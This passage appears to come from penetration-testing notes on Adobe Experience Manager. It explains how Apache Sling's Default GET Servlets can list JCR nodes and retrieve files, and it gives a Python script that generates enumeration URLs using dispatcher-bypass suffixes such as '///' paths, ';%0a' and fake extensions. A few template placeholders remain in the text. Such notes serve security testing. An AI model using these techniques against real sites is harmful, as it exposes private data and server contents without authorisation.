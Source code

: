 > TODO

## Exploitation

### Default GET Servlets

Huge profit right here; you can stop the `gobuster` you have running in the background already, as this is even going to list even that juicy `/bin/S3cr3t/RANDOM_STR/NO_WAY_THIS_IS_IN_A_WORDLIST` path. This is a feature in Apache Sling you can find more info about in:

- [Rendering Content - Default GET Servlets](https://sling.apache.org/documentation/bundles/rendering-content-default-get-servlets.html)

So, the idea behind this is that you can retrieve JCR nodes with its props (size, authors/usernames, dates, filenames, child node names...). This can work on any path for the AEM site and you can build _queries_ against them like this:

<content-aem-selector-guide></content-aem-selector-guide>

To _build_ such URLs you can use the following params:

- **Selectors:**
  - `tidy`: _pretty-prints_ json
  - `infinity`
  - `children`: Holds a list of every children node. You will list literally everything the server has (_Huge profit!_)
  - `childrenlist`: Same behaviour as children(_Huge profit!_)
  - `ext`
  - A numeric value: `-1`, `0`, `1...99999`: The number would typically be the _depth_ of the results (-1 being infinite). A depth of 3 would traverse 3 nodes.
- **Formats:**
  - `json`
  - `txt`
  - `xml`
  - `res`: Very useful to retrieve files (More info at the [Sling documentation](https://sling.apache.org/documentation/bundles/rendering-content-default-get-servlets.html#streamrendererservlet))

You can use the following script to generate routes to test if the Default Get Servlets are in use:

```python[getservlet_paths.py]
import itertools
import string
import random

CACHE_BUSTER_LEN = 3
JUICY_NODES = ['/', '/etc', '{{ extra-paths /bin }}', '/var', '/apps', '/home']
JUICY_NODES = [p for pair in map(lambda x: (x, x.replace('/', '///')), JUICY_NODES) for p in pair]

GETSERVLET = itertools.product(JUICY_NODES, ('', '.children', '.childrenlist'),('.json', '.1.json', '....4.2.1....json', '.json?{0}.css', '.json?{0}.ico', '.json?{0}.html','.json/{0}.css', '.json/{0}.html', '.json/{0}.png', '.json/{0}.ico','.json;%0a{0}.css', '.json;%0a{0}.png', '.json;%0a{0}.html', '.json;%0a{0}.ico'))

for path in ['{0}{1}{2}'.format(p1, p2, p3.format('{0}')) for p1, p2, p3 in GETSERVLET]:
    print(path.format(''.join(random.choice(string.ascii_letters) for _ in range(CACHE_BUSTER_LEN))))
```
